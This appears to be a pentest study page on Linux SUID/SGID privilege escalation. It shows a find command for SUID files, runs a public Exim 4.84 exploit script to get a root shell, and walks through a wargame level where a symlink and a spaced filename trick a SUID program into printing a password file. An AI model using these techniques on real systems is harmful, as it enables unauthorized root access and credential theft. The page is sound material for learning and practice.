

# SUID / SGID abuse

#### SUID files get executed with the privileges of the file owner. 

#### SGID files get executed with the privileges of the file group. 

If the file is owned by root, it gets executed with root privileges, and we may be able to use it to escalate privileges.

## Finding SUID / SGID Files

We can use the following find command to locate files with the SUID or SGID bits set:

#### `find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null`

## Shell Escape Sequences

Just as we were able to use shell escape sequences with programs running via sudo, we can do the same with SUID / SGID files. A list of programs with their shell escape sequences can be found here: [https://gtfobins.github.io/](https://gtfobins.github.io/) Refer to the previous section on shell escape sequences for how to use them.

### A Quick Word on LD\_PRELOAD & LD\_LIBRARY\_PATH

why we can’t just use the same LD\_PRELOAD and LD\_LIBRARY\_PATH environment variable tricks we used with sudo privilege escalation?

#### By default, this is disabled in Linux, due to the obvious security risk it presents!

Both these environment variables get ignored when SUID files are executed

Certain programs install SUID files to aid their operation. Just as services which run as root can have vulnerabilities we can exploit for a root shell, so too can these SUID files. Exploits can be found using Searchsploit, Google, and GitHub, in the same way we find exploits for Kernels and Services.

for example we found an SUID file for exim service:

#### `-rwsr-xr-x 1 root root 963691 May 13 2017 /usr/sbin/exim-4.84-3`

Exim is a popular mail transfer agent that is somewhat notorious for having many security vulnerabilities.

The version of exim is rather obvious from the filename, however we can confirm it:

#### `$ /usr/sbin/exim-4.84-3 --version`

Using searchsploit on our local machine, we find a local privilege escalation for this exact version:

Copy the exploit script across to the target machine. You may need to remove ^M characters from the script:


DON NOT COPY PASTE THIS, ENTER ^M WITH THE KEY COMBINATIONS.

Note that to get ^M you have to hold Ctrl and then press V and M in succession.


`sed -e "s/^M//" 39535.sh > privesc.sh`

Make sure the script is executable:

`chmod +x privesc.sh`

Execute the script to gain a root shell:

`./privesc.sh`

## Abusing cat to read files with SUID executables

we have a suid program that prints out a given file contents named printfile we have a password file that cant be read by this program which contains root password .it seems the program printfile outputs the text from a file; just like cat. Therefore, we can assume that it’s using cat somewhere in the code.

make a temp directory, and a new text file that we can use for testing the program with ltrace.

#### `mkdir /tmp/jhalon && touch /tmp/jhalon/test.txt  cd /tmp/jhalon  ltrace ~/printfile test.txt   __libc_start_main(0x804852d, 2, 0xffffd744, 0x8048600  access("test.txt", 4) = 0  snprintf("/bin/cat test.txt", 511, "/bin/cat %s", "test.txt") = 17  system("/bin/cat test.txt"  --- SIGCHLD (Child exited) ---  <... system resumed> ) = 0  +++ exited (status 0) +++`

From the output, we can see that there is a small security hole in the way this program functions. If you look closely, you can see that the function access\(\) and /bin/cat are being called on the input file. What access\(\) does is check permissions based on the process’ real user ID rather than the effective user ID

And if we look back into the previous ls -la output, we can see that printfile is owned by leviathan3. So access\(\) will call the process with leviathan3’s privileges

Looking into the code we also see that /bin/cat is being called on the file to output the contents. While access\(\) uses the full path’s filename, /bin/cat uses just the first part of the filename. \(This is due to how the “ “ are set up in the program\) What we can do here is try to add a space to a filename, and if we are correct, /bin/cat will read the file as 2 separate files.

#### `touch pass\ file.txt  ltrace ~/printfile "pass file.txt"   __libc_start_main(0x804852d, 2, 0xffffd744, 0x8048600  access("pass file.txt", 4) = 0  snprintf("/bin/cat pass file.txt", 511, "/bin/cat %s", "pass file.txt") = 22  system("/bin/cat pass file.txt"/bin/cat: pass: No such file or directory  /bin/cat: file.txt: No such file or directory   --- SIGCHLD (Child exited) ---  <... system resumed> ) = 256  +++ exited (status 0) +++`

As you can see, /bin/cat calls “pass file.txt” as two separate files, “pass” and “file.txt”. We can actually exploit this! Let’s go ahead and create a symbolic link for the “pass” part in “pass file.txt”, and link it to /etc/leviathan\_pass/leviathan3.

#### `ln -s /etc/leviathan_pass/leviathan3 /tmp/jhalon/pass   leviathan2@melinda:/tmp/jhalon$ ls -la   total 7864  drwxrwxr-x 2 leviathan2 leviathan2 4096 Sep 10 04:55 .  drwxrwx-wt 1 root root 8036352 Sep 10 04:55 ..  lrwxrwxrwx 1 leviathan2 leviathan2 30 Sep 10 04:55 pass -> /etc/leviathan_pass/leviathan3  -rw-rw-r-- 1 leviathan2 leviathan2 0 Sep 10 04:54 pass file.txt   leviathan2@melinda:/tmp/jhalon$ ~/printfile "pass file.txt"  Ahdiemoo1j  /bin/cat: file.txt: No such file or directory`

as you can see we where able to read password file.

